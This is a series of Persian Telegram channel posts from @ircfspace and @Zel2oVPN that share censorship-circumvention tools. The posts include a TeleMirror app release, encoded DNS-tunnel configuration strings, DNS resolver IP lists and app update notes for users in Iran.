نسخه ۳ از اپ متن‌باز و رایگان TeleMirror برای "دریافت آخرین مطالب کانال‌های تلگرام در شرایط محدودیت شدید اینترنت" برای ویندوز، لینوکس و مک منتشر شد.

در این نسخه نمایش پست‌ها بهینه‌تر شده و مشکلات مربوط به کش تا حد زیادی برطرف شده، بخش تنظیمات به برنامه اضافه شده و امکان بازگشت به تنظیمات پیشفرض فراهم اومده. لیست کانال‌های پیشفرض افزایش پیدا کرده و علاوه بر نسخه Lite، یک حالت Normal اضافه شده که تلاش می‌کنه در صورت امکان تصاویر فیلترشده رو هم نمایش بده.

این برنامه فیلترشکن نیست و بر پایه دسترسی‌های فعلی وایت‌لیست اینترنت عمل می‌کنه، بنابراین ممکنه روی برخی از اینترنت‌ها قابل استفاده نباشه.

👉 github.com/ircfspace/teleMirror/releases/latest
💡 t.me/PersianGithubMirror/4599

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2299

افغانستان تست خدمات اینترنت 5G رو در کابل استارت زده، عراق تلگرام رو رفع فیلتر کرده؛ اما جمهوری اسلامی تا دقیقه ۹۰ درحال آزار و اذیت میلیون‌ها ایرانیه!

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2298

  

یعنی خاک بر سرتون (پیامرسان‌های بومی) که با اینهمه حمایت و در میدانی بدون رقیبِ جدی هم عرضه ندارین کیفیت خدمات دهی، پشتیبانی و توان زیرساختیتون رو ارتقا بدین و بعداز اینهمه سال سابقه، آدم نمیتونه ۸ مگ فیلم ارسال کنه.
بعد از خودروسازی، باید شماها رو هم دومین فرزند لوس و بی‌خاصیت کسب و کارهای داخلی دونست!

© kamran_falahati

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## Zel2oVPN — post 2738

✅VayDNS [S110]

slipnet-enc://ATw+R1XHdYNiU0poyDTGL+C3Knv4RgbCdCnoDfuaWxsuLaiuDv+TsDR07H/e3Zg6RMd1vDCs6Y8Xyw3GLziK3LvmCJ3sDoOefxPPFrJi8CisVC2YGs/1jCEHufQky9hMNHrw4tz9gm18Kzy4NyI7hoILKBtXg2sudHA186dyNXfupHLCf8IgLb3ewLpvOf6X2LrjfPoQgLG2gUBqdFsJe6a2eROIeqhQ3Yf++FJV0CZmV1rbmemiydpUBBNI2EYnsl2sSvTr/DH3KoyBlRyrozXehseLC2bmADNbBTVxqrRrHpBYdU+mNwBop3S+FazB2AHh8KLLWuT2tqIF1P6z7sXy1t73UTFo+NDQ6HiKiNcIlZrzWe/D71ouq8OYcC89v/6iQFOc7Wao+/NcYNI0fXCrvhswRN6nzoWbNAOpGxpDGcOOrqkbRCm7BorsYSiqJEydsvH+ZZka3cmrCkM2D48VtCm6mi4nWtqcNEPJyVLaKoQOrJrz9BLJVgHaew5ZB5qkQDZPLp1U7GSlN92O0etzUtsO11QDu5a6icti5o47Jv3Adqcl1+QffshtfskG5KbkawZFcxUwUPxAQCRV6eH+642tL9TEJTpov65zcIVn4Gp/6ShkRsGglOzxNfyNBvEyOlQ4JEftL72Hmtf2EY4vGSeczELQb7Dx3MJB0gz7aK2fStb03hKE8g==

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2736

✅VayDNS [S109]

slipnet-enc://ATkJCbsYjSuPrUp+9dz25j6wqiVwKlt55lV8Hu+5e4409/FFPDy2+3QVNp59bwoAMomr9g1NylJoNrNa+RYN468oBiK2svALgfZMDz4ydI0LR3RlSxHOV8OK0kO8uQZurUCPMaJY3FDj7xC1DXRATMDL8wddcUOSZQ/Yf9xK1d6ZuSgoQUTVI6v0yfYxWZzpcGH/R1FfkrMvPZj4YVvoaJZkk2USpwMToKGorUFMc41RztggMQtyK/IxIB4TMYGY2bMqMSxujXFVURXRV0GoNITose4DM1/x02mMmMI4l2X2Yxi7QyDU8CcseXdyDzpRB06JNPUhRySUT/C2ySHnhL2h3FW2io1q6B3f8oqs/7NEcmxAvef3P/yn06I3evpHXG4K1I4bsr+g9smivlWQM27HLfWDBSLbMeuPKLcxlNq0Z7Kbtkviy6hyI+7xnvHTvsV7aCnTvH3//6zeoyrtwFgB43FGrlJqFaOR92LiKAd+V/TaMdmM02irwXQNfYw+UzIthdcEIokFDtbqVs+niGedTWawJ239GlJ8P6zSoTDDgtZ+7KVP2DtwppnOja+hgs+D/ZpRKRtXlf59QLi+KgShys/Ak2dk+7GWb5VUz9bttDvnR3cn2+AbgO5C3LqdkpDJKXF3nPC/H9dN70tpj+Uas/q9VyQ7Xq5u+j+9BAmS/vGGIBQR6zaGr7jrKG93dUVFrCp84/4I+yI4Q1wCEXr3nEQcmRIHtwQfL1FDkKAFdAs1gQEKodR2SwzuY/hXeL+CIWIqTSv9kJ4v

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2735

❣️ Resolver :

109.230.83.155:53
130.185.75.205:53
149.112.112.112:53
185.128.138.2:53
185.129.215.43:53
185.140.242.134:53
185.229.28.162:53
185.252.30.130:53
185.66.228.26:53
185.88.153.12:53
2.189.1.14:53
2.189.1.1:53
212.23.216.123:53
213.176.123.5:53
213.207.195.146:53
31.47.56.59:53
37.114.246.203:53
37.98.104.129:53
45.87.6.55:53
5.160.118.186:53
5.160.13.86:53
5.160.45.138:53
5.202.248.74:53
62.60.136.105:53
79.175.151.56:53
81.12.34.188:53
82.99.195.82:53
85.133.162.44:53
85.133.184.69:53
91.212.252.48:53
94.182.56.43:53
94.183.52.95:53

🌟 Settings :

Min up 110
Min down 512
Max up 1325
Max down 1100

☑➜@Zel2oVPN

## Zel2oVPN — post 2733

✅DNSTT [S108]

slipnet-enc://AZsXAAi7Ffnk3XzsYVl3qH8KfJHLbXwZ+yYP+bP1qZlw+umxZSjsd86lmXdQYNuSgr0r+s+9l7MxZEgFayMbnAuewVDOOq8bn5/lC5MrIoVhe4GolcW73biRXQbHolFNKSi2JaQ1q1oU0vYSs2oOsjcDn6z8bxdusmPc9TrQP23uNZTMc4wFMgQbzJYwmslmuv9RK0do7vaPoJzUm7/X37SEeTgMVXoHcV7dK1zzfYe8LYKoAJ79H0TXKGiuKrXesmKIqW9JwrbCmqAbeMwTzW6HpJe98reV9aaMU9gGxBnBrWfE7Un0Xx/VG2YyX65lSTyPIOP+UCQDjSZRm77swL1wfYfyEerGAhGgtJuc3RIMcw3R+pKRQb0YIBletOMf35OnbORhhcw/tcaSuIzHlkvNvX8/P3JLoRbpwJze3V2TIwyusIb3Yob0K2PsvDjsGC955zoYmhcnCQ/uKqIy6DIxG3CjVAM6rnZ5ng89LiZdZxfK+DuXGiRqnoQ0QGh2GU3cvghx8CDwKOSEBKq/TNYjyw9dm1cazIJpbomFYqoMo3T/QGlDqO13VjPpVglG/FlCCuhAB+kFO1hC31qFEoF1VE2iWmH7gTOScyvmWMEQjSDyq6NF4lJzgEGlyqiCFQBtIz7QDCZGvGBkjdxtZusFk/yVc9WUYXskIScnOG4EbpV7+jYbNM7CW07tpmzf/4Pr29d6wb8NjBGvRGerVG10a2xGdF5jwOZ17Ns5IN3tdzHDL7XrB/T9JgrFis8dc9876ISwZWlz9djt5DTEfW9a6Mm+V/4Kb8t3frQkQUJQ

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2732

11 تا سرور جدید و اختصاصی WhiteDNS

stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidi53aGl0ZWRucy5zaG9wIiwic2VydmVyIjp7ImRvbWFpbiI6InYud2hpdGVkbnMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiYjA3ZGMzNTczNjBkNmU2ODk2NTA5MTM2ZDcwOTc4OTciLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEyLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEyLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjAwOWM1MTRiMmE2NDNlZDQwY2JkN2NjNjE5Mzg5YjBmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEwLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEwLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjFlY2Q1ZmRmZTM1MWE5MzEzY2VhMzlmZTFiOWM1OWRkIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjkud2hpdGVkbnMuc2hvcCIsInNlcnZlciI6eyJkb21haW4iOiJ2OS53aGl0ZWRucy5zaG9wIiwiZW5jcnlwdGlvbl9rZXkiOiJhMmYzMzQ4YmZhMDIxNzA2Mzk5NzBmMmQ2M2YxMDNkYyIsImVuY3J5cHRpb25fbWV0aG9kIjoxfX19
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjExLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjExLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjRjMTY2OTMyNmNkYmU4OThjYWIwOTY1YWNlMzAxMGMwIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEzLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEzLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6ImUyOTE4ODcwY2U4OGYwNTU0N2ZiZmJhOTlhZWU0ZWM1IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE0LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE0LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjliODY3MmEzNTJkMDQwNDg5ZDk2YmU5ZGY5N2VkOTY2IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE1LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE1LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjlhYTY4ZTdlOWE3YzIyZDkxZDhmNDY2ZDY0YTM1ZGZmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE2LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE2LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjU5Mjg0NWNhMzhmMTk0NjEzODNkMDU3MzNjMzMyMTRjIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE3LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE3LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjU3NjU1MDM1NGE3MzA5NTMwYjdmYTI1MTUyZGM2NzJmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE4LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE4LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6ImQwNTM4YTNkNTQ1YTc4MzBiOGJiMmViMGMzNzQ4ZTk1IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0

دانلود نسخه جدید

☑➜@Zel2oVPN

## Zel2oVPN — post 2731

✔️ VayDNS [S107]

slipnet-enc://AawJWSLU/2oHUhpI6uR3Jp1Y7ER0DXykIJ8sGSRsoO2M+QmToSXBPJ4BtIAmSaXAo5MKiY0sHaa6V9NPDjfUR72GtRYB1pkuxDyV3Sna6xCC3SJ8X7VVATh2sZvNe7jFzVgBf6kVecgiu8Z4PuCZ/Ef4EByPnMZWmmz2+5UEbmKmM9JtGFWu/pLs/CkscUF8WWqdKHQG0XaEbxpUlQjBYyA8Zm/4ozxaNaCaFObxCOBQQBVPImro8wEu/CVRWV0LHnsiys0ZiG15Q8y1QAZ+JyIsrp7f5gl7WZGs/3KxJKPois3D4CzXn+zj0pRglqqzml19SKflvWRhYYI/Ztz8vj9rIP//LToRtM0fJmV2e3gCYfcIBkx44H++g6pdOC+k5SQY67SvOV35wzsabZxQofGbtCSYGaqCadj/HbSv4X06W1fJAfU9sH3tyOuIL6P5FlPEYEdr7qA4VcOc2r5hW0sE1u7OoU+fslIsnZZ70QkXgrMxP1M9pGIEuO1h0jE8P7LcIzd51ooX3clRkyMZcC4vVq8qG4/q/OuCyJYdg4WWjoJJy4stRfk4Z526rGpaWtpUgOyiaCLuaTUSW7qbzQh85uGEK5GSwEVjo55IeGYjb1FHEO+vf7xO0k3GP3waYIE0da3bPr1OClvDJGmgbRoJHa+megIg6qBtwt/YVttEgxF4gY+IKKVXzKI/p9GHZq/C+kmhh7lRtsQcAzFaOMOFpizGq7OUnh/9TEXG2Z51qfO5kOapTBrCW33VcuFUbntHEVGBJ+r1rv+5

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2730

  <a href="https://t.me/Zel2oVPN/2730" target="_blank">📎 Download file</a>

اپدیت جدید WhiteDNS
نسخه 1.2.7

لینک دانلود داخلی

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده
✅ حالت Full VPN کامل‌تر و پایدارتر شده
✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود
✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید
✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده
✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند
✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود
✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است
✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید
✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده
✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده
✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود
✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده
✅ ظاهر صفحه اتصال و دکمه Connect/Stop مرتب‌تر و جمع‌وجورتر شده

☑➜@Zel2oVPN

## Zel2oVPN — post 2729

✅VayDNS [S106]

slipnet-enc://AbY7tfOggzdt0XYvPgWLxSDFCGsIndDFHEsrWqBHvZagIzehEzMBRMqsVadOkNFL+1RO7sg/diKT1+uS6jjHSayG4i30ebX71iDYKrKKHvgvTe4a7GY/n8wsOlybCUE4rLYcoUZYVeRbkS6vi5Sk5321dJRLujDkeDZUvNAP/TrXY8AaXYyCGEPvUpK25hg6G2vQuLp1ZIKuwniZNb3HSKj/hp7PTnnRPuxOcsA+FOTGo/4KPryoGPpaPbuDNOkbkCo0GVgs+Z4piUkjTdXfCtwIZ5TD73WrGfoN0y22UbLP6cIBtNs3ZR/f4CFYff0s1QleU4WEGIag6tF2p0N6BGkjMUDg2+dAq0K7Gx2Y2fCPp7nh3zQrer96C81zGRafy7iyDBN67aKpDxBOxPNjNJyRhRmLqOlhmJcUJiJiaSqqkDMqTU4kV77OcQZQAX6OlBVMU9RoP3Yn43fr32w7RiAOma+UBX0/JGw/q/l7ccrC5Cu6phXSc9bcr4bYcF6QU98QZYnl5WsL0xQCLozD0OM99Zo8K4r9FpEHJiVgCDUOGc7y3G1iYdOOHUYTBZekBWWo+p+jstRLaO9OzNDtJ/VX+FHnAwkCvgodtsRWdVD0L5rMqUTHaoQdrhyvKtSK1M7xEwrbJfBV94Cd5o+zE3hCI3lY5Cbb46LBMh2C7XMBrutmOW+tgPG8beq8rMiTgcFPsBX3Tgj8+tbaAg==

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2728

✅ VayDNS+SSH [S105]

slipnet-enc://AaUfEMPMZwab55q1PTrL3BB32UZi1wY9u7sCxnzCZUzwLkURnoGL7Cgyl6NEVARWzX0fpElnBtc2+fQ6UBaiIipehI3P/LGFj6iguJE81QD0wFjn4Hxx9sUjOivhkxVkkU0HWd+p96kU7ISEMNUJyWT6KIzMPsQEgIz8Xx+F0KeDb+folz12/LtX70z0khLCtBoXugn1B4fCLhdgsqsoi72XXJtmNTEvKEwoOy8BfRZw19Ofq8zlYBuI17oW0yiAUI0fK1x2K0mOQNYzXlKiUo1sH9TmvlH7Et70by9hi//t/ZvtkF68Nd65GXPN9VrrnwCJUuzb8b7Wwjq/iKtbM6ikmxzXSC0VsX8+nvBASDuUBhlpjl+Ep1crfA3ELDK4QKJWv5teroHvn6SbfdnlTABfUX9+mtXIuA0IJpUbWyWU5qKpeO7SwETXan/UgX4Vf8lBB6CX+cLQUYSQEWuutahUo8Fdt58SCSdwTvhwZYHr04AQxAnCHeHTCMMeWeKSDBvAw3Ic8arFt47oY+Jops+9S5Fn3DVUT+hnO3ufPfMkxTQY9DuoRU5cQMjuSafB11K5QZnUScxeQcJfeHJlk5GJkdA1sgy1mG0kBgS8NrOKxstUUjzu2OYXadyZiLyI1+bAKUD0feYYv5D8SPqUkmCJGPx7s0yEUL3I3oZoq+7OLJSiMIKAoF7NBsYO3lOTXmm24PK1pQrzvCDAPC8SeBoB4L/My2mO1+jdml2ccHZCuqaiB0Qk91mNE1tao+sAqYSxM89TBsnoaRaO3w26yd4RNeFTn/P3WWsX

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2727

✔️ VayDNS [S104]

slipnet-enc://ASXPkoAE3Z4qZ6gs1dYk1dwpyrXfVXsNluJl+B4XTTbXEDOAv1/w54JNxEHw92D3vCVJnOUOsMRhJR5jDJEmvK4ACVxyI0Wwlpm4hkoxypJvMbentnniYSvn0YH9QEgsRopJW5cajaF/uh+k30lNjOfI+7okkJfNkzElMP/lWpyej/pTMtYmwwB9Q7Sk+hTmlzydeVqKEJbS2JfC1Xz0LBIr268Hgh7I0Pth9EsQujufQXBPvlqHHO5zkbJIiXjilXJ3P+N+ZMqPs98sQA0QEfhc1DoYx/ksD3z5BS8GKax6AaNzaHUh+3g96JwjkqAsiOLfVZwreNEmUl+VqthHkZRZOw/NQsddXWfEWU4KBJV02/9IbdJuHE4WmpWpu/9yOBR/nOKTSj3vUemifZOhpS2+J1sRbDGK0XFmEbygIQnq77dYUqc5SycpoUao74eiFqF818uOv1DLBlC5MPlV0x2wC7k/Qsh03VZRFM7vdgyccwVYfzGfEkm2IVBe3YYgXiA35OsP/1IziNtDt76/jDYUKAGAcXxUIjqnMvm4eIAsoQIo4LENC38lCvRNUUH/AkfvsW6ZHnmXqNNwz/6Yc8TR6ImQyrtruitiAS7ZeW8ATsCfWG6rjt8pErR5jBqywUf0rKApjK2n6RaGUJ2NuwBe9IwZAZEVFCZuBb0kDppJnPy4V+fbdYLMRzgXizlbUGynJ/qb5z0RBsyNdIHQ3nyUOnnvuHJudB+pSkBt7oNw1WW1TZL5KBz95rKdO3egxos2bteqDyRiLXHEhg==

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2726

✔️VayDNS+SSH [S103]

slipnet-enc://AUXYqn9BiOD0Ep0Qo1atGZIm8TEqJwEr9kMRfqQRNQW+fgYu8/lnC0Hj5iazWDgVMGz+8WPzgCcIW3rIvZNmRjSIbWaScB8T713ayqqLf/PJuZZno9/bhCuYzBP4iK1x23IkaAZvBUoEtGxtUuPqiE1jqDT/Afk2KtqZ6Uc0VljXlva96blBvuVkj2Fm76rVFhnLRPvoCdOXQEAHEDdGRJg+95OIIXPSI2pQTX6L0IXAWDC7hXHrELHKLz+1ve2EhX0n6bWivWRZbQkdkEJI+RhULUk7/7ApaAuMeRfjNKEUYdPBT6bB4SU5WspuKAWELE5xYYn+xWJ8kG/5i4OuxBtbS/T/AjNnQfN6lbo8MwLt85HxKq+Gxvm8ZwexqhZ1a85osrT2v1P6i+1PkAqufM+f9vd+1M/E5vkbQ/OKzVzf3b87gx3ZsXyiQv44EBrM3kJjVH2muzCaLA/M7J97FH6hD1Oh/v0hnGlC20QRXIgAXcNkZXMjVLoqHtMmAt0xdI8h3VvOgrsDuzgJe9NU6RCTmVBrAnwsEd0DjlrhSzol1FOE1am9hWIBgeJCDqSK3CcWeTBHZtMSKHpCfsJYCe/nz5vu4pVGAS53qvko9pxE5gUJDF7qdfq3ejoOj1hhgs7mEtik4aQ/pBC9IGHSSP0KDrkGIbkt0bep82NTuH3ORNmt3wxdRzEKeCOOX70ZwEkYCmLbeF7rVo0f05OHYTsn9WyM2EG4zimGEqJ8KEu+K/JD2yZLaFdCz8s8w0tsKu9ZbvRuMt4ZO62uKcGmIkcYFM5rs3QBQg3qT1gxD7ZneRkMi0I30rSc+MkXJ+ipwlY=

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2725

❇️ New Resolvers

10.104.205.79:53
10.104.228.239:53
10.133.8.2:53
10.233.249.52:53
10.233.249.57:53
130.185.78.202:53
149.112.112.112:53
178.239.156.1:53
178.252.143.123:53
178.252.145.62:53
178.252.153.122:53
185.141.171.187:53
185.174.132.167:53
185.208.76.101:53
185.208.76.104:53
185.46.111.219:53
185.49.96.223:53
185.49.97.83:53
185.53.143.13:53
185.66.228.26:53
188.121.146.226:53
188.121.157.181:53
188.213.65.54:53
194.156.140.111:53
195.181.37.171:53
2.184.70.50:53
2.184.90.198:53
2.187.35.19:53
2.188.21.130:53
213.176.123.5:53
217.218.200.218:53
217.218.201.113:53
217.218.248.213:53
217.219.162.157:53
217.219.182.42:53
217.219.77.194:53
31.184.131.3:53
37.156.146.147:53
37.202.174.61:53
37.202.189.239:53
37.255.229.99:53
37.32.10.135:53
37.32.2.4:53
45.159.112.79:53
45.87.4.116:53
46.100.61.33:53
46.245.78.86:53
46.245.98.133:53
5.106.19.116:53
5.159.52.74:53
5.160.171.101:53
5.160.171.36:53
5.160.171.47:53
5.160.33.254:53
5.160.56.50:53
5.202.191.77:53
5.202.243.191:53
5.22.193.5:53
77.238.123.179:53
78.158.191.228:53
78.38.251.250:53
78.38.251.253:53
78.39.136.13:53
78.39.80.9:53
79.127.2.89:53
80.191.92.199:53
80.75.9.252:53
81.12.20.85:53
81.28.38.179:53
81.28.47.2:53
81.29.248.103:53
81.90.145.121:53
85.133.189.11:53
85.185.105.104:53
85.185.81.99:53
86.109.45.188:53
87.107.65.78:53
87.248.151.59:53
88.218.16.4:53
93.115.151.153:53
93.118.110.144:53
93.118.110.215:53
93.118.127.60:53
93.118.183.2:53
93.126.22.206:53
93.126.29.109:53
94.183.163.248:53
94.183.95.208:53
95.38.145.68:53
10.104.209.7:53
10.160.155.9:53
10.185.68.113:53
10.185.68.114:53
109.230.72.244:53
176.101.33.214:53
178.22.122.101:53
178.252.143.133:53
178.252.147.150:53
185.103.129.110:53
185.106.144.149:53
185.120.220.194:53
185.129.170.75:53
185.165.30.119:53
185.172.1.70:53
185.37.55.30:53
188.121.146.226:53
188.213.65.54:53
195.181.37.171:53
2.184.90.198:53
2.187.35.19:53
2.188.21.130:53
213.207.198.180:53
217.219.136.95:53
217.219.39.234:53
31.25.92.13:53
31.7.78.205:53
37.148.35.169:53
37.191.93.221:53
37.255.229.99:53
37.32.10.135:53
45.81.19.10:53
45.81.19.15:53
45.87.6.55:53
46.100.164.112:53
46.209.157.19:53
46.245.78.84:53
46.245.78.86:53
5.160.115.130:53
5.160.13.85:53
5.160.140.16:53
5.160.233.150:53
5.160.80.180:53
5.160.80.183:53
5.190.10.1:53
5.202.182.222:53
5.202.191.77:53
5.202.248.119:53
5.22.199.193:53
62.60.196.11:53
78.111.11.12:53
78.38.156.205:53
78.38.182.201:53
78.38.251.250:53
78.38.251.253:53
79.127.95.133:53
79.175.151.56:53
79.175.172.101:53
80.191.108.78:53
80.191.255.22:53
81.12.47.58:53
81.12.7.88:53
81.28.50.2:53
85.185.1.10:53
87.107.45.9:53
89.34.201.120:53
91.199.215.238:53
93.115.120.4:53
93.115.125.171:53
93.118.148.30:53
94.182.214.34:53
94.182.54.200:53
94.183.95.208:53

☑➜@Zel2oVPN

## Zel2oVPN — post 2724

  <a href="https://t.me/Zel2oVPN/2724" target="_blank">📎 Download file</a>

اپدیت جدید تلگرام

نسخه 12.7.2

لینک دانلود تلگرام

☑➜@Zel2oVPN

## Zel2oVPN — post 2723

✅ VayDNS [S102]

slipnet-enc://AZ5HXnnQzvtIA46XeG2jc2JKo3nH5Fyplyb60hh534YYOVQHqCXn4mEBRyO1AIK/hMkanQTgJ+wHZ9pO4zsBqCG7Z0vXgdN7XaFOHGBNOZrmq+snoH5lZpgUQ8dFgyt1iId483aJZyk0zdsfNm/TwP95xE4KmML06Fi+TeSu/QWqi8xL2LksiOwr7wfQyG5P8XsOK4FMmTZySHBGBGeiPrKx0iKVZ1ihPTui7tJHfLZIgN9COKIrNlEiGw/mVZSymDTkKsHTZ+E3PX6oSyuNInZQ7sEsbdDLrjU6tQ6ejdEITvxAtzy94363uLJCjIYgygav/iCoLgoH6vWtsy51Ce2AagkUiX4LV4vLc5Kc+3g5Kf3fC9RMSlzE7BqGsfQgJAlpVY/FCvUNKeQ+rFmRLiqTI47ftsWHUP6o+y3TOYEP09tXx/BdiqSI6HrTSr4zvjUwFiIdY8+aScd6+7Qk2r0S7zvNh2o3DOFYtWtBXn9Z4g5mXGcRe2hFt46fJHOA0q8o2zVLVkWo/ZWE/SlQVc0RhabbJwwFalAr3610/i2MdPj69DxYcfnM9owFmDopErt90bcpDBLiDCfqUdtU9A82X7fI1C8c9lWHoUsC5aA9jxZ7ItsCGEC8CYgZuyDNVILwaBIRGVbOA3pBpHYLmM7IKYvCHrquT1LasGWgTk0YuCz+VEPJV4MQ33jxIrHFdozzMCvJ0xvxe9h2Gc9EepXWhbwEHac=

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2722

✅VayDNS+SSH [S101]

